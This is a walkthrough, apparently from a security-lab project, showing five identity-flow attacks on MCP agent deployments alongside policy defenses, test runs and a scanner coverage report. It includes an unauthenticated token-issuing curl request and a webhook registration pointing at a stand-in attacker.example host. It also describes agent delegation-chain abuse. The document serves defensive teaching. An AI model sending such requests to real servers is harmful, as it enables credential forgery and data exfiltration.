


# Flow Types in Practice — The Five Lanes End-to-End

**The five agentic-identity flows, each walked from attack to detection to defense, with captured output from a live reference deployment.**

This walkthrough is the practical companion to [`docs/identity-flows.md`](../identity-flows.md). Where that document defines the taxonomy, this one *demonstrates* it. Each section covers one lane and shows — with real commands and real output — how the three tools (camazotz, mcpnuke, nullfield) interact on that lane.

Every captured output in this document was produced against the reference deployment on 2026-04-26:

- **camazotz** at commit `3904f52` on k3s, with `nullfield.enabled=true` in the helm values
- **nullfield** at commit `5aa8f60` (three new per-rule primitives compiled in)
- **mcpnuke** at commit `01b98ad` (`--by-lane` and `--coverage-report` shipped)

You can reproduce everything here by following the [Quick Start](../../README.md#quick-start) Option 2.

---

## Table of Contents

- [The Five Lanes — One Paragraph Each](#the-five-lanes--one-paragraph-each)
- [Flow 1 · Human Direct](#flow-1--human-direct)
- [Flow 2 · Human → Agent (Delegated)](#flow-2--human--agent-delegated)
- [Flow 3 · Machine Identity](#flow-3--machine-identity)
- [Flow 4 · Agent → Agent (Delegation Chain) — deep dive](#flow-4--agent--agent-delegation-chain--deep-dive)
- [Flow 5 · Anonymous](#flow-5--anonymous)
- [The Cross-Project Coverage Report](#the-cross-project-coverage-report)
- [What's Next](#whats-next)

---

## The Five Lanes — One Paragraph Each



| Lane | Who's the principal? | What's the attack surface? | Default `nullfield` action |
|------|----------------------|----------------------------|----------------------------|
| 1 · Human Direct | A person, authenticated with their own OIDC token | Token theft, session fixation, MFA bypass | `ALLOW + audit` |
| 2 · Delegated | A human, acting through an agent | Confused deputy, audience widening, downscope bypass | `SCOPE + audit` with `audienceMustNarrow` |
| 3 · Machine | A bot / CI job / daemon with a cert or SPIFFE ID | Cert exfiltration, replay, over-privileged SA | `SCOPE + bindToSession + detectReplay` |
| 4 · Agent → Agent | A human → agent → agent → ... chain | Identity dilution, chain forgery, infinite delegation | `ALLOW<=2 / HOLD@3 / DENY>3` with `maxDepth` |
| 5 · Anonymous | No one — pre-auth traffic | Tool enumeration, info disclosure, DoS | `DENY` (allowlist only) |

---

## Flow 1 · Human Direct

A human authenticates with an OIDC bearer and calls an MCP tool themselves. No agent in the path.

### Camazotz labs on this lane

Six primary labs, one on Transport B:

```
auth_lab, rbac_lab, tenant_lab, notification_lab, temporal_lab   (Transport A)
secrets_lab                                                       (Transport B)
```

### The attack

`auth_lab` demonstrates a direct-token bypass. On easy difficulty, `auth.issue_token` returns a token without verifying identity. On hard difficulty, identity verification is strict.

```bash
# Attack against the running NUC deployment on easy difficulty
curl -sS -X POST http://192.168.1.85:30080/mcp \
  -H 'Content-Type: application/json' \
  -d '{"jsonrpc":"2.0","id":1,"method":"tools/call",
       "params":{"name":"auth.issue_token",
                 "arguments":{"username":"eve@attacker"}}}'
```

### How nullfield defends

The [`lane-1-human.yaml`](https://github.com/babywyrm/nullfield/blob/main/policies/by-lane/lane-1-human.yaml) starter template enforces:

```yaml
identity:
  enabled: true
  validation:
    requireSignature: true
    requireExpiry: true
    requireAudience: true

rules:
  - action: ALLOW
    mcpMethod: tools/call
    requireIdentity: true    # ← Lane 1's defining guard
    maxCallsPerMinute: 60
    budget:
      perIdentity: {maxCallsPerHour: 500}
      onExhausted: DENY
  - action: DENY
    reason: "Lane 1 default: humans must authenticate"
```

The unauthenticated bypass on `auth_lab` easy is the *target* of `nullfield`'s `requireIdentity`. With the template active, the request above would fail `requireIdentity` and fall through to the default DENY.

**Applied to cluster** (verified on NUC):

```bash
$ kubectl get nullfieldpolicies -n camazotz lane-1-human-starter
NAME                   RULES   AGE
lane-1-human-starter           3h

$ kubectl get nullfieldpolicies -n camazotz -l nullfield.io/lane=human-direct
NAME                   RULES   AGE
lane-1-human-starter           3h
```

### How mcpnuke detects it

`mcpnuke` probes OIDC discovery and token behavior. On this target today, Lane 1 static-scan findings appear in the Uncategorized bucket because the auth checks aren't yet lane-tagged (see the [coverage report](#the-cross-project-coverage-report) — a known gap).

---

## Flow 2 · Human → Agent (Delegated)

A human delegates to an agent, which calls MCP on the human's behalf with a down-scoped token. The agent presents an RFC 8693 `act` claim linking back to the original principal.

### Camazotz labs on this lane

**12 primary labs — the densest lane** (Transport A unless noted):

```
oauth_delegation_lab, revocation_lab, pattern_downgrade_lab,
credential_broker_lab, context_lab, comms_lab, audit_lab,
indirect_lab, budget_tuning_lab, policy_authoring_lab,
response_inspection_lab                                       (Transport A)
egress_lab                                                    (Transport B)
```

### The attack — audience widening

`oauth_delegation_lab` demonstrates RFC 8707 violation: an agent performs token exchange but the resulting token has *wider* audience than the parent. Classic confused-deputy setup.

### How nullfield defends — `identity.audienceMustNarrow`

The [`lane-2-delegated.yaml`](https://github.com/babywyrm/nullfield/blob/main/policies/by-lane/lane-2-delegated.yaml) template uses the new 2026-04-26 primitive:

```yaml
rules:
  - action: SCOPE
    mcpMethod: tools/call
    requireIdentity: true
    identity:
      requireActChain: true        # must prove delegation happened
      audienceMustNarrow: true     # aud(child) ⊆ aud(parent)
    scope:
      request:
        stripArguments: [password, api_key, secret, token]
      response:
        redactPatterns:
          - 'sk-[A-Za-z0-9]{20,}'
          - 'Bearer [A-Za-z0-9._-]{20,}'
```

Captured from the unit test suite (`nullfield/pkg/policy/rules_test.go`) on commit `5aa8f60`:

```
=== RUN   TestAudienceMustNarrow_RejectsWidening
--- PASS: TestAudienceMustNarrow_RejectsWidening (0.00s)
```

The test verifies three cases:
- Narrowing (parent `{a, b}` → child `{a}`) → **ALLOW**
- Widening (parent `{a}` → child `{a, c}`) → **DENY** (falls through to default-deny rule)
- No act chain → narrow-ness vacuously passes; `requireAudience` at the policy level handles the direct-caller case

---

## Flow 3 · Machine Identity

A non-human principal (bot, CI job, daemon) authenticates with a machine credential — SPIFFE ID, X.509, or a short-lived cert issued by Teleport's tbot.

### Camazotz labs on this lane

Five primary labs, one on Transport C:

```
bot_identity_theft_lab (MCP-T18), teleport_role_escalation_lab (MCP-T28),
cert_replay_lab (MCP-T19), config_lab                      (Transport A)
supply_lab                                                  (Transport C)
```

### The attack — cert replay

`cert_replay_lab` exercises replay of an expired tbot certificate within a clock-skew grace window. On easy, the gateway accepts expired certs unconditionally. On hard, `integrity.detectReplay` blocks the replayed cert ID.

### mcpnuke has Lane 3 checks lane-tagged

This is the only lane with mcpnuke checks explicitly carrying `lane=3, transport="A"` today (see [`mcpnuke/checks/teleport_labs.py`](https://github.com/babywyrm/mcpnuke/blob/main/mcpnuke/checks/teleport_labs.py)). Running with `--by-lane` against a camazotz instance where the Teleport labs are exposed groups those findings into the Lane 3 bucket directly.

### How nullfield defends — `integrity.detectReplay`

The [`lane-3-machine.yaml`](https://github.com/babywyrm/nullfield/blob/main/policies/by-lane/lane-3-machine.yaml) template:

```yaml
integrity:
  enabled: true
  bindToSession: true    # catch cert reuse across sessions
  detectReplay: true     # catch the cert_replay_lab attack
```

---

## Flow 4 · Agent → Agent (Delegation Chain) — deep dive

**The flagship walkthrough.** This lane is where the three new 2026-04-26 primitives live (`requireActChain`, `audienceMustNarrow`, `delegation.maxDepth`) and it's the one the `delegation_depth_lab` and `delegation_chain_lab` directly exercise.

### The flow



### Camazotz labs on this lane

```
delegation_chain_lab, delegation_depth_lab, hallucination_lab,
relay_lab, attribution_lab, cost_exhaustion_lab          (Transport A)
```

### How nullfield enforces — three primitives working together

From [`lane-4-chain.yaml`](https://github.com/babywyrm/nullfield/blob/main/policies/by-lane/lane-4-chain.yaml):

```yaml
rules:
  # Depth 0–2: allow, but every hop must carry act chain + narrow aud
  - action: ALLOW
    mcpMethod: tools/call
    requireIdentity: true
    identity:
      requireActChain: true
      audienceMustNarrow: true
    delegation:
      maxDepth: 2

  # Depth 3: park for human approval
  - action: HOLD
    mcpMethod: tools/call
    requireIdentity: true
    identity:
      requireActChain: true
    delegation:
      maxDepth: 3
    hold:
      timeout: "10m"
      onTimeout: "DENY"

  # Depth > 3 (or missing act chain): hard deny
  - action: DENY
    mcpMethod: tools/call
    reason: "Lane 4 default: chain too deep or act chain missing"
```

### Captured enforcement — the primitives in action

The unit tests in [`nullfield/pkg/policy/rules_test.go`](https://github.com/babywyrm/nullfield/blob/main/pkg/policy/rules_test.go) exercise each boundary. Run them against the current binary:

```
$ go test ./pkg/policy/ -run "TestDelegationMaxDepth|TestRequireActChain|TestAudienceMustNarrow" -v

=== RUN   TestRequireActChain_BlocksMissingAct
--- PASS: TestRequireActChain_BlocksMissingAct (0.00s)
=== RUN   TestAudienceMustNarrow_RejectsWidening
--- PASS: TestAudienceMustNarrow_RejectsWidening (0.00s)
=== RUN   TestDelegationMaxDepth_RejectsDeepChains
--- PASS: TestDelegationMaxDepth_RejectsDeepChains (0.00s)
PASS
ok  	github.com/babywyrm/nullfield/pkg/policy	0.530s
```

The `TestDelegationMaxDepth_RejectsDeepChains` case verifies the classic Lane 4 pattern explicitly:

| Chain depth | maxDepth setting | Decision |
|-------------|------------------|----------|
| 1 (one agent) | 2 | ALLOW |
| 2 (two agents — boundary) | 2 | ALLOW |
| 3 (three agents) | 2 | DENY (falls through to default-deny) |

That's the primitive doing its job. The same truth table drives the `delegation_depth_lab` on camazotz — on hard difficulty, the lab's `_handle_delegate` denies depth > 2 with nullfield's `maxDepth` primitive as the recommended external enforcement.

### Installed, not yet wired to the sidecar

On the reference NUC cluster:

```
$ kubectl get nullfieldpolicies -n camazotz -o custom-columns=NAME:.metadata.name,LANE:.metadata.labels."nullfield\.io/lane"
NAME                       LANE
lane-1-human-starter       human-direct
lane-2-delegated-starter   delegated
lane-3-machine-starter     machine
lane-4-chain-starter       chain
lane-5-anonymous-starter   anonymous
mcpnuke-recommended        <none>
```

The five lane templates and an mcpnuke-generated policy are all present as CRDs. Activating them on the sidecar requires deploying the [`nullfield-controller`](https://github.com/babywyrm/nullfield/tree/main/cmd/nullfield-controller) which syncs CRDs to the ConfigMap the sidecar mounts — called out under [What's Next](#whats-next) and intentionally out of scope for this walkthrough.

### What *is* live on the NUC right now

The sidecar is active with the chart-shipped policy:

```
$ curl -sS -X POST http://192.168.1.85:30080/mcp \
    -H 'Content-Type: application/json' \
    -d '{"jsonrpc":"2.0","id":1,"method":"tools/call",
         "params":{"name":"shadow.register_webhook",
                   "arguments":{"url":"http://attacker.example/hook"}}}'
{
    "jsonrpc": "2.0",
    "id": 1,
    "error": {
        "code": -32000,
        "message": "denied by policy: denied by rule for tool: shadow.register_webhook"
    }
}
```

Audit event captured in the sidecar:

```json
{
  "time": "2026-04-27T00:49:56.149470652Z",
  "level": "INFO",
  "msg": "audit",
  "event_type": "tool.denied",
  "method": "tools/call",
  "tool": "shadow.register_webhook",
  "identity": "dev-user",
  "payload": "{\"type\":\"tool.denied\",\"method\":\"tools/call\",\"tool_name\":\"shadow.register_webhook\",\"identity\":\"dev-user\",\"reason\":\"denied by rule for tool: shadow.register_webhook\",\"timestamp\":\"2026-04-27T00:49:56.149449678Z\"}"
}
```

That's the full closed loop: external request → NodePort → nullfield arbiter → DENY → JSON-RPC error + structured audit.

---

## Flow 5 · Anonymous

No authenticated principal. Public discovery endpoints, health checks, MCP `initialize`, and read-only metadata.

### Camazotz labs on this lane

Three primary labs. Lane 5 has no transport notion by design (it's pre-auth):

```
tool_lab, shadow_lab, error_lab
```

### How nullfield defends — pure allowlist

The [`lane-5-anonymous.yaml`](https://github.com/babywyrm/nullfield/blob/main/policies/by-lane/lane-5-anonymous.yaml) template is the tightest of the five:

```yaml
rules:
  - action: ALLOW
    mcpMethod: initialize
    maxCallsPerMinute: 20

  - action: ALLOW
    mcpMethod: tools/list
    maxCallsPerMinute: 20

  - action: ALLOW
    mcpMethod: tools/call
    toolNames: [healthcheck.ping, server.info]
    maxCallsPerMinute: 30

  - action: DENY
    reason: "Lane 5 default: anonymous callers may only hit the allowlisted surface"
```

### mcpnuke detects pre-auth tool enumeration

Any `tools/call` from an anonymous caller that isn't on the allowlist gets rejected. mcpnuke's static-scan identifies the enumeration surface directly via `tools/list`.

---

## The Cross-Project Coverage Report

Running `mcpnuke --coverage-report` against the live NUC camazotz gives us the honest picture of *where the lanes are covered by scanning today*. Captured 2026-04-26:

```
$ python3 -m mcpnuke --targets http://192.168.1.85:30080/mcp \
    --fast --no-invoke \
    --by-lane \
    --coverage-report http://192.168.1.85:3000

── Cross-project coverage report (vs camazotz) ──
  camazotz: 32 labs across 5 lanes
  mcpnuke covered 0/5 lanes on this scan
  widest gap: Lane 2 (delegated) — camazotz declares labs, mcpnuke fired none

Lane 1 — Human Direct
  camazotz: 6 primary lab(s), transports [A, B], gaps: Transport C not covered
  mcpnuke:  0 finding(s) fired (none)
  camazotz declares 6 primary lab(s); mcpnuke fired zero findings — check may not exist or is dormant

Lane 2 — Human → Agent
  camazotz: 12 primary lab(s), transports [A, B], gaps: Transport C not covered
  mcpnuke:  0 finding(s) fired (none)
  camazotz declares 12 primary lab(s); mcpnuke fired zero findings — check may not exist or is dormant

Lane 3 — Machine Identity
  camazotz: 5 primary lab(s), transports [A, C], gaps: Transport B not covered
  mcpnuke:  0 finding(s) fired (none)
  camazotz declares 5 primary lab(s); mcpnuke fired zero findings — check may not exist or is dormant

Lane 4 — Agent → Agent
  camazotz: 6 primary lab(s), transports [A], gaps: Transport B not covered, Transport C not covered
  mcpnuke:  0 finding(s) fired (none)
  camazotz declares 6 primary lab(s); mcpnuke fired zero findings — check may not exist or is dormant

Lane 5 — Anonymous
  camazotz: 3 primary lab(s), transports [A]
  mcpnuke:  0 finding(s) fired (none)
  camazotz declares 3 primary lab(s); mcpnuke fired zero findings — check may not exist or is dormant
```

**What this output actually says:**

- camazotz *does* cover all 5 lanes with 32 labs.
- mcpnuke fires findings on this scan, but with `--no-invoke --fast` only the Uncategorized bucket fills (34 findings, mostly `excessive_permissions` and `prompt_injection`) because those checks aren't yet lane-tagged.
- The teleport-chain checks (the only lane-3-tagged checks) don't fire on `--no-invoke` because they require calling the lab tools.
- The honest story: **the coverage gap between the target corpus and the scanner's lane vocabulary is the next batch of checks to backfill**. This is the kind of actionable gap the report is built to surface.

**In short:** the tooling tells you what you can't yet measure. That's the loop closing.

---

## What's Next

Concrete work items surfaced by this walkthrough, in rough value order:

1. **Deploy `nullfield-controller` to the reference cluster** so the five installed `NullfieldPolicy` CRDs are synced into the sidecar's ConfigMap and actually enforce. Right now they're installed and validated but not consumed at runtime — the one last hop.
2. **Backfill lane/transport on more `mcpnuke` checks.** Today only `teleport_labs.py` (13 findings, Lane 3 / Transport A) and `teleport.py` (5 findings, Lane 3 / Transport A) are tagged. The `--coverage-report` output above makes the remaining gap directly actionable — every check that fires needs a lane decision.
3. **Fill a transport gap with a camazotz lab.** Lane 1 Transport C (an SDK-level direct-human flow), or Lane 4 Transport B/C. Each new lab turns one amber cell to green in the lane × transport grid.
4. **Walkthroughs per-lane with an *active* nullfield policy.** Once (1) lands, this document can be extended with end-to-end attack→deny captures for Lanes 1, 2, 3, 5 to match the Lane 4 section.

None of those are session-sized for a single afternoon; each is a clean contained unit.

---

## References

- [Identity Flow Framework](../identity-flows.md) — the lane × transport taxonomy
- [The Ecosystem](../ecosystem.md) — how the four projects fit together
- [The Feedback Loop](../feedback-loop.md) — scan → recommend → enforce → validate
- [nullfield per-lane policy templates](https://github.com/babywyrm/nullfield/tree/main/policies/by-lane) — the five starter templates
- [nullfield spec (Layer A + B)](https://github.com/babywyrm/nullfield/blob/main/docs/specs/2026-04-26-per-lane-policy-templates.md) — what was shipped on 2026-04-26
- [mcpnuke spec (`--by-lane` + `--coverage-report`)](https://github.com/babywyrm/mcpnuke/blob/main/docs/specs/2026-04-26-by-lane-reporting.md) — the reporting contract
